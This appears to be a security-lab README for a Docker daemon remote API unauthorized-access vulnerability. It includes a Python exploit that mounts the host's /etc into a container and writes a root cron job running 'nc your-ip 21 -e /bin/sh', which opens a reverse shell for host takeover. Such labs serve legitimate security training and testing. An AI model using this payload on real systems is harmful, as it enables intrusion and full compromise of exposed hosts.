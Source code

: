 # Docker daemon api unauthorized access exploit

[中文版本(Chinese version)](README.zh-cn.md)

Reference Links：

- http://www.loner.fm/drops/#!/drops/1203.%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8

## Vulnerability environment

Enter the following command to build and run the vulnerability environment:

```
docker compose build
docker compose up -d
```

## Exploit

Start a container, and mount the host `/etc` folder to the container, then we will have read/write access to any files.

We can put the commands in crontab configuration file to reverse shell

```python
import docker

client = docker.DockerClient(base_url='http://your-ip:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

Reverse shell exploit by injecting commands in crontab:

![](1.png)

